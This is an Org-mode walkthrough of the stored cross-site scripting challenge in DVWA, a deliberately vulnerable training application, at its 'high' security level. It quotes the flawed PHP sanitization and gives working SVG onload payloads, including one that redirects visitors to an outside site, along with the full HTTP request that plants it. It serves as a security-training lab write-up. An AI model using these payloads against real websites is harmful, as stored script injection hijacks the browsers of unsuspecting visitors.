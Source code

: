 #+TITLE: DVWA - XSS Stored High
#+AUTHOR: Leonardo Tamiano

* Description
  The way the fields are escaped is now different.

  #+begin_src php
// Sanitize message input
$message = strip_tags( addslashes( $message ) );
$message = ((isset($GLOBALS["___mysqli_ston"]) && is_object($GLOBALS["___mysqli_ston"])) ? mysqli_real_escape_string($GLOBALS["___mysqli_ston"],  $message ) : ((trigger_error("[MySQLConverterToo] Fix the mysql_escape_string() call! This code does not work.", E_USER_ERROR)) ? "" : ""));
$message = htmlspecialchars( $message );
  #+end_src

  #+begin_src php
// Sanitize name input
$name = preg_replace( '/<(.*)s(.*)c(.*)r(.*)i(.*)p(.*)t/i', '', $name );
$name = ((isset($GLOBALS["___mysqli_ston"]) && is_object($GLOBALS["___mysqli_ston"])) ? mysqli_real_escape_string($GLOBALS["___mysqli_ston"],  $name ) : ((trigger_error("[MySQLConverterToo] Fix the mysql_escape_string() call! This code does not work.", E_USER_ERROR)) ? "" : ""));
  #+end_src
  
* Solution
  We can use javascript events to trigger the execution of JS code within the ~name~ field.

  #+begin_example
<svg/onload=alert(1337)>
  #+end_example

  To actually get the redirect we use the following payload

  #+begin_example
<svg/onload=window.location.replace('https://leonardotamiano.xyz');>
  #+end_example
  
  The HTTP request is the following one
  
  #+begin_example
POST /vulnerabilities/xss_s/ HTTP/1.1
Host: evil
Content-Length: 113
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://evil
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://evil/vulnerabilities/xss_s/
Accept-Encoding: gzip, deflate, br
Accept-Language: it-IT,it;q=0.9,en-US;q=0.8,en;q=0.7
Cookie: PHPSESSID=qnb8tctsqlju8alqdo6olclav4; security=high
Connection: close

txtName=<svg/onload=window.location.replace('https://leonardotamiano.xyz');>&mtxMessage=yo&btnSign=Sign+Guestbook
  #+end_example
